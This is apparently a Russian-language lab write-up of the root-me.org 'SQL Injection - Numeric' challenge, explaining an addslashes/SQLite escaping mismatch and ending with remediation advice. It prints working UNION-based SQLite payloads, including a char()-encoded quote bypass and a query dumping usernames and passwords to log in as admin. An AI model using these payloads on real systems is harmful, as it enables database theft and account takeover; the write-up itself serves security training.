









## Lab: SQL Injection - Numeric

**Платформа:** root-me.org
**Категория:** SQL Injection
**Сложность:** Medium
**Дата:** 2025-07-24

---

## TL;DR
Параметр `news_id` уязвим к SQL-инъекции в числовом (unquoted) контексте. Некорректная фильтрация одинарных кавычек (экранирование по MySQL-логике `\'`, несовместимое с синтаксисом SQLite) позволила обойти защиту через функцию `char()` и построить UNION-based инъекцию без использования символа кавычки. В результате была вытащена схема БД и извлечены учётные данные из таблицы `users`.

## Описание уязвимости

```
Атакующий → GET параметр news_id без санитизации
          ↓
Значение подставляется в SQL-запрос без prepared statements
          ↓
Некорректный фильтр экранирует ' как \' (синтаксис MySQL)
          ↓
SQLite не поддерживает \ как escape-символ → ломается запрос
          ↓
Обход через char() — построение строк без кавычек
          ↓
UNION SELECT позволяет вытащить произвольные данные из БД
```

## Разведка

### Шаг 1 - Обнаружение точки инъекции

Цель: `GET /web-serveur/ch18/?action=news&news_id=`

Ввод одинарной кавычки (`news_id='`) вызвал ошибку:

```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\"
```


Ошибка возникает именно на символе `\` (backslash), а не на кавычке. Это указывает на то, что приложение применяет функцию экранирования вроде `addslashes()`, которая заменяет `'` на `\'` — стандартное поведение для MySQL, но не для SQLite.

### Шаг 2 - Анализ причины ошибки

В SQLite обратный слэш не является escape-символом — единственный способ экранировать кавычку внутри строки в SQLite это её дублирование (`''`). Поэтому `addslashes()` вставляет в запрос "голый" `\`, который SQLite не может интерпретировать как часть синтаксиса, если параметр вставляется **вне кавычек** (числовой контекст):

```sql
SELECT ... FROM news WHERE news_id = 1\'
```


Это объясняет, почему ошибка о некорректном токене возникает именно на `\`, а не на кавычке — фильтрация применяется вслепую, независимо от того, нужны параметру кавычки в запросе или нет.

### Шаг 3 - Подтверждение SQLi без использования кавычек

Поскольку любое использование `'` ломало синтаксис, инъекция строилась полностью в числовом контексте:

```sql
news_id=1 AND 1=1   → true, страница отображается нормально
news_id=1 AND 1=2   → false, отличие в ответе
```

Разница в поведении подтвердила boolean-based SQL-инъекцию.



### Шаг 4 - Определение количества колонок

```
news_id=1+UNION+SELECT+NULL
news_id=1+UNION+SELECT+NULL,NULL
news_id=1+UNION+SELECT+NULL,NULL,NULL
...
```


### Шаг 5 - UNION SELECT и определение отображаемых колонок

```sql
news_id=0 UNION SELECT 1,2,3
```

`0` — заведомо несуществующий `news_id`, чтобы основной запрос ничего не возвращал и на странице отображались только данные из UNION. Это позволило определить, какие позиции колонок выводятся в HTML.


---

## Эксплуатация

### Шаг 1 - Обход фильтрации кавычек через char()

Для запроса схемы БД (`sqlite_master`, `pragma_table_info`) требовались строковые литералы, но любое использование `'` ломало запрос из-за некорректного экранирования. Обход — функция `char()`, которая строит строку из ASCII-кодов символов без единого символа кавычки:

```sql
news_id=1 UNION SELECT 1,name,type FROM pragma_table_info(char(117,115,101,114,115))--
```

где `117,115,101,114,115` — ASCII-коды слова `users`. Это позволило получить список столбцов целевой таблицы, полностью избегая символа `'` в payload.





### Шаг 2 - Извлечение данных

Зная имя таблицы и нужные столбцы, финальный запрос для дампа учётных данных:

```sql
news_id=1 UNION SELECT 1,username,password FROM users--
```


### Шаг 3 - Вход в систему под админом

После извлечения данных прозвела вход в систему под username со значеним admin


---

## Вывод / причина уязвимости

- Отсутствие параметризованных запросов (prepared statements) — параметр `news_id` подставлялся в SQL-строку напрямую.
- Некорректная кастомная фильтрация: экранирование по принципу MySQL (`addslashes()` → `\'`), несовместимое с синтаксисом SQLite, где для экранирования кавычки внутри строки нужна её дупликация (`''`), а не backslash.
- Несовпадение диалектов экранирования и SQL-парсера позволило полностью обойти фильтр через функцию `char()`, избегая символа кавычки в payload.

## Защита

```php
// Использование prepared statements вместо конкатенации строк:
$stmt = $db->prepare('SELECT * FROM news WHERE news_id = :id');
$stmt->bindValue(':id', $news_id, SQLITE3_INTEGER);
$result = $stmt->execute();
```

Дополнительно:
- Приводить числовые параметры (`news_id`) к типу `int` перед использованием в запросе.
- Не полагаться на экранирование спецсимволов как единственный метод защиты — оно зависит от диалекта СУБД и легко обходится при несоответствии (как в данном случае MySQL-экранирование vs SQLite-парсер).
- Применять принцип наименьших привилегий для аккаунта БД, используемого приложением.
- Не выводить в ответах сервера технические детали ошибок SQL (сообщения об ошибках `SQLite3::query()` раскрывают структуру запроса и облегчают эксплуатацию).